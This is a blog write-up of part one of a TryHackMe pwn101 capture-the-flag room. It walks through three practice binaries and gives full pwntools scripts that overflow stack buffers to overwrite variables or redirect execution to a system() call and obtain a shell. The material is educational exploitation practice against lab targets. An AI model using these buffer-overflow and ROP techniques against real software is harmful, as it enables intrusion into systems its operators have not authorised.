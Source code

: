 ```yaml
---
title: THM/pwn101 - writeup, part 1
date: 2023-05-02 17:13:31 +0100
author: farrimwildaxe
categories: [Writeup,THM]
tags: [thm,pwn101,writeup,pwntools,buffer overflow,rop]
img_path: /assets/img/thm/pwn101
published: true
---
```


In this post, we'll be discussing the TryHackMe room known as pwn101. This challenge will test and improve your buffer overflow and ROP chaining skills. By completing this challenge, you will gain valuable experience in identifying vulnerabilities, exploiting them, and ultimately gaining access to a target system. Whether you're a newbie or a skilled hacker, pwn101 is an excellent way to sharpen your skills and gain more knowledge in the field of cybersecurity. Let's explore the specifics of this exciting challenge to discover what it entails.

## pwn101.pwn101

Pwn101 is a series of ten stages that increase in difficulty. The first stage, pwn101, like the TryHackMe room, is relatively easy. As shown in the screenshot below, you only need to provide a long enough string to cause a buffer overflow and modify the integer variable following the buffer:

![pwn101's main() function](pwn101-main.png)

 So, without further ado, here is a pwntools script to accomplish this:

```python
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn101.pwn101")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.100.183", 9001)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'make briyani:')
io.sendline(b"A" * 70)
io.interactive()
```

After running the script, we've got the shell:

![pwn101 shell](pwn101-shell.png)

## pwn102.pwn102

Our goal in the second challenge is to change the values of two variables located after the buffer. These variables are labelled `variable_1` and `variable_2` in the screenshot. We need to set them to `0x00c0ff33` and `0x0000c0d3`to get the shell:

![pwn102's main() function](pwn102-main.png)

To achieve our goal, we must pass a string of sufficient length that overwrites the buffer and variables with "coffee" and "code" values. Remember to consider endianness:

```python
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn102.pwn102")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.100.183", 9002)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'right?')

payload  = b"A" * 104
payload += p32(0x0000c0d3, endian='little')
payload += p32(0x00c0ff33, endian='little')

io.sendline(payload)

io.interactive()
```

Once our payload is ready, we can send it to the server:

![pwn102 shell](pwn102-shell.png)

And again, we've got a shell.

## pwn103.pwn103

The third challenge, pwn103, involves a more complex set of tasks to solve than the previous challenges, but it is still relatively easy. After opening the binary file in Ghidra, you can see that it contains a "switch-case" with multiple functions. It looks like a simple chat application:

![pwn103 main() function](pwn103-main.png)

Let's check what functionality it has. The `announcements()` function prints a few messages and calls `main()`, the same as the `discussion()` and `rules()`. Also, the `bot_cmd()` reads the input and displays a few fake commands.

![pwn103 general() function](pwn103-general.png)

The most interesting for us will be the `general()` function which, despite displaying few messages, also reads the input from the user via `scanf()` without proper checks. But there is one more thing. After examining the symbol tree thoroughly, we have discovered a function named `admins_only()`, which includes a call to the `system()`. By exploiting this and the bug in the `general()` function, remote code execution is possible.

![pwn103 admins_only() function](pwn103-admins_only.png)

Let's write a pwntools script for that:

```jsx
from pwn import * 

context.log_level = 'debug'

elf = context.binary = ELF("./pwn103.pwn103")

gs = '''
break main
'''
def start():
    if args.TMUX:
        context.terminal = ["tmux", "splitw", "-h"]

    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("10.10.57.182", 9003)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b'channel:')
io.sendline(b'3')
io.recvuntil(b'pwner]:')

payload  = b"A" * 40
payload += p64(elf.symbols.admins_only)

io.sendline(payload)
io.interactive()
```

We can run the script against the remote machine when it is ready. Let's run it. 

![pwn103 shell](pwn103-shell.png)

The script started but crashed after sending a command to the spawned shell. After looking in GDB, we see that our stack needs to be aligned. So we need to pop one item from the stack. The easiest way is to find a `ret` gadget and use it. We can use the `ROPgadget` tool for that:

![pwn103 ROPgadget tool](pwn103-ropgadget.png)

It found the "ret" instruction at the `0x00401016` address. Let's use it:

```jsx
payload  = b"A" * 40
payload += p64(0x00401016)              # ret, to make stack properly aligned
payload += p64(elf.symbols.admins_only)
```

And here are the result, we've got the shell again.

![pwn103 shell v2](pwn103-shell2.png)

Great job, we've successfully finished this section! Join me in the next part, where we'll tackle the rest of the challenges from this room together.